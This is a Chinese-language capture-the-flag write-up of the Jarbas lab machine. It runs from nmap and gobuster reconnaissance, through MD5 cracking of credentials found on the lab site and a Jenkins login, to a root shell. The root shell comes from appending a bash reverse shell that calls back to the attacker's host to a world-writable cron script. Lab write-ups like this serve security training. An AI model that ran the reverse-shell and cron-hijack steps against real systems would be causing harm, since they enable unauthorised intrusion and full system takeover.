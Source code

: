 ### 主机发现和nmap扫描

```bash
nmap -sn 192.168.56.0/24
```

靶机ip：192.168.56.104

```bash
nmap -sT --min-rate 10000 192.168.56.104
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
```

```bash
nmap -sT -sV -sC -O -p22,80,3306,8080 192.168.56.104
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
```

80,8080都是web服务

### web渗透

打开80页面，部署了一个持续集成的项目（jenkins）,部署项目用的

8080是一个登录页面

#### 目录扫描

```bash
gobuster dir -u http://192.168.56.104/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php
```

```
/index.html           (Status: 200) [Size: 32808]
/.html                (Status: 403) [Size: 207]
/access.html          (Status: 200) [Size: 359]
```

访问/access.html得到三组凭据

![image-20240603215707851](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240603215707851.png)

进行md5解密

```
tiago:5978a63b4654c73c60fa24f836386d87 italia99
trindade:f463f63616cb3f1e81ce46b39f882fd5 marianna
eder:9b38e2b1e8b12f426b0d208a7ab6cb98  vipsu
```

尝试登录8080，发现eder可以登录

jenkins在构建项目时，可以为该项目增加构建步骤

![image-20240603220331939](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240603220331939.png)

得到一个`jenkins`的shell

### 提权

发现自动任务里有一个以root身份执行的bash脚本，并且我们可以写

```bash
bash-4.2$ cat /etc/crontab
cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
bash-4.2$ ls -l /etc/script/CleaningScript.sh
ls -l /etc/script/CleaningScript.sh
-rwxrwxrwx. 1 root root 100 Jun  3 10:32 /etc/script/CleaningScript.sh
```

写入反弹shell

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.56.101/1234 0>&1" >> etc/script/CleaningScript.sh
```

等待自动任务执行

```bash
[root@jarbas ~]# ls
ls
flag.txt
[root@jarbas ~]# cat flag.txt
cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs
```

拿到最后的flag.txt
